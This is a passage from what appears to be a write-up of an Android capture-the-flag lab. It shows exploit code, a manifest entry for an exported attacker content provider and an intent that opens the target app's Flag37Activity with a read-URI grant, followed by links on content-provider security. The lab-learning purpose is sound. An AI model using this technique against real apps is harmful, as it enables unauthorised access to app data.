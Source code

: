 ```java
    }

```
- Exploit: the previous attack provider class.
```xml
  <provider
            android:name=".AttackProvider"
            android:authorities="abdeonix.com"
            android:enabled="true"
            android:exported="true">
        </provider>
```
```java
 Button button = findViewById(R.id.click);
        button.setOnClickListener(v -> {
            Intent intent = new Intent();
            Uri FileProvider = Uri.parse("content://abdeonix.com/");
            intent.setData(FileProvider);
            intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag37Activity");
            intent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
            startActivity(intent);

        });
```
## Resources
- [Oversecured - Content Provider](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers)
- [Oversecured - Android security checklist: Content Providers](https://blog.oversecured.com/Content-Providers-and-the-potential-weak-spots-they-can-have/)